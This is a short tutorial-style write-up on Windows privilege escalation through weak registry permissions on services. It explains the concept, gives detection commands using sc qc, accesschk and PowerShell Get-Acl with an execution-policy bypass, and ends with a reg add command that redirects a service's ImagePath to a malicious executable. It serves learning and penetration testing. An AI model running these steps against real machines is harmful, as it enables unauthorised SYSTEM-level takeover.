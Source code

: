 # Vulnerability Overview 

The Windows Registry stores configuration settings for services and applications, and Weak permissions on registry keys can allow an attacker to modify settings used by privileged processes.
Think about the Registry as the `/etc` directory on Linux, and the registry keys as `/etc/ssh`, and the registry values as `port 22` when you do the `nano /etc/ssh` command 

How It’s Exploited: Attackers alter registry values (e.g., service executable paths) to point to malicious code, escalating privileges when the modified service or application runs.


_In this write-up, I exploited this vulnerability in two ways_
1. Getting a shell as a system user
2. Upgrading the current low-level user into an admin user



# Detection
Using the command ` sc qc servicename `, you can check the service info and see if it is running with some privileges
If there's a `SYSTEM privilege (SERVICE_START_NAME)` in the result, it confirms it is running with a privilege, and it is going to be helpful if  there's an `Insecure Registry Permission Vulnerability` on it 
The vulnerability can be detected using 
1. Accesschk: This would check for the permissions on the registry key
    `C:\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<servicename>`
   If the result comes back with `BUILTIN\INTERACTIVE` or `BUILTIN\Users` or `Everyone` having a `RW` permission, then your current user can exploit this vulnerability. 
   
2. Get-Acl functionality on PowerShell
   Start by getting a PowerShell terminal `powershell -ep bypass` then run the next command `Get-Acl -Path hklm:\System\CurrentControlSet\services\servicename | fl` while looking for `BUILTIN\INTERACTIVE` or `BUILTIN\Users` or `Everyone`



# Exploitation
1. reg add HKLM\SYSTEM\CurrentControlSet\services\servicename /v ImagePath /t REG_EXPAND_SZ /d C:\users\user\esc.exe /f
